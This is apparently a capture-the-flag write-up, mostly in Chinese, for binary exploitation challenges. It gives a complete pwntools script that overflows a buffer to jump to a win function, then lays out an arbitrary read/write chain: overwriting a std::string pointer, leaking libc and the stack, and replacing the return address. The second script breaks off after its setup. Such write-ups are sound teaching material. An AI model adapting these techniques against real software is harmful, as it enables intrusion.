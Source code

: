 exploit:
```python
from pwn import *

FILENAME = "./chal"
context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"
exe = context.binary = ELF(FILENAME)

r = process(FILENAME)

win = exe.symbols['Welcome_to_the_world_of_Ave_Mujica']

offset = 168
r.sendlineafter(b'?', b'yes')
r.sendlineafter(b':', b'-1')
r.sendlineafter(b':', b'A' * offset + p64(win))

r.interactive()
```

## MyGO schedule manager α

這題的出自 `std::cin >> sched->title;`  
使得用戶可以利用 `schedule` 的結構來寫入 `string content` 的位置  
經過查閱，我發現 string 的結構大致長這樣

```cpp
struct std::string {
    char *ptr;        // pointer to data
    size_t len;       // string length
    size_t cap;       // capacity
};
```

所以利用上面的 overflow，我們可以改掉 String 的 ptr，配合其他功能來達到任意讀寫
遇到的第一個問題在於執行時輸出的格式不一，~~但我又懶的改很多 code~~  
在經過一連串 debug 後，我藉由讀寫時的不同狀態寫出了兩種任意讀取、一種任意寫入的方法  
整體讀取/寫入的流程大致如下:

1. edit title & overwrite string ptr
2. use the builtin read/write function to access the memory

不過這題的保護開蠻多的，所以整個攻擊流程有點長:

1. 讀 puts@got 取得 libc base
2. 讀 environ 來取得一固定 Stack 位址
3. Leak 出 Stack 後就寫 saved return address 成 backdoor
4. 觸發 break 離開 main

完整 exploit 如下:
> P.S. 不是我不想用 pwntools 的 .symbols 問題是這題開 strip 阿
```python
from pwn import *
import sys
import time
# FILENAME = "./chal"
FILENAME = "./chal_patched"
context.log_level = "debug"
context.terminal = ["wt.exe", "wsl.exe"]
context.arch = "amd64"
exe = context.binary = ELF(FILENAME)
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc.so.6")


```